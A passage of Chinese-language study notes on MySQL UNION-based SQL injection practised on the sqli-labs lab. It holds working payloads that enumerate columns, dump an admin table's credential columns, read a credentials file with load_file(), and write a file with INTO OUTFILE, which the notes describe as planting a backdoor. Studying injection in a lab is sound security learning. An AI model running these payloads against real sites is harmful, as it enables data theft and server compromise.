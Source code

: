 ![image-20220726155117482](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726155117482.png)

#### 查询指定表名下的列名信息

```mysql
id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='admin' and table_schema='qqyw' limit 0,1   # 当出现多个记录时，可以使用limit 0,1取第一个记录
```

![image-20220726155734752](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726155734752.png)

#### 查询指定数据

```mysql
union select 1,u,p,4 from qqyw.admin    # 查询u,p两列的数据，注意指定admin来自qqyw
```

### 信息收集（低版本数据库）

暴力查询或结合读取查询

- SQLmap工具——字典dicts.py
- load_file读取源代码的数据库查询语句
- 暴力猜解——admin，password，passwd，user，member

### ==文件读写操作==

- **load_file()**：读取函数，读取文件内容

  ![image-20220726160705262](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726160705262.png)

  常见的load_file()读取的敏感信息路径：https://blog.csdn.net/weixin_30292843/article/details/99381669

  ```mysql
  id=-1 union select 1,loadfile('d:/www.txt'),3
  id=-1 union select 1,load_file('C:/phpstudy/PHPTutorial/WWW/sqli-labs-master/sql-connections/db-creds.inc'),3
  ```

  ![image-20220726162851222](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726162851222.png)

  ![image-20220726163415752](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726163415752.png)

- **into outfile** 或 **into dumpfile** ：上传文件（写入后门、木马）

  ![image-20220726160842023](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726160842023.png)

  ```mysql
  union select 1,'x',3 into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\sqli-labs-master\\x.php'--+
  ```

  其中--+用于注释后面的语句，后面有limit 0,1。

  ![image-20220726163809879](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726163809879.png)

#### 文件路径获取
